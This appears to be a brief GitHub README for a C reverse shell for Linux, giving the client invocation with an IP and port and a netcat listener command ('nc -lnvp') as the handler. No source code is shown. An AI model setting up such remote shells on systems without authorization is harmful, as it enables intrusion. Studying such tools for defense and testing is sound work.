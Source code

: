 # SimpleReverseShellC

This is a simple Reverse Shell written for linux platform execution.

## Client Usage:

./linuxClient [IP] [PORT]

Where [IP] and [PORT] will default to the default defines if no paramters are passed.


## Handler current Usage (until custom handler work begins):

nc -lnvp [PORT]
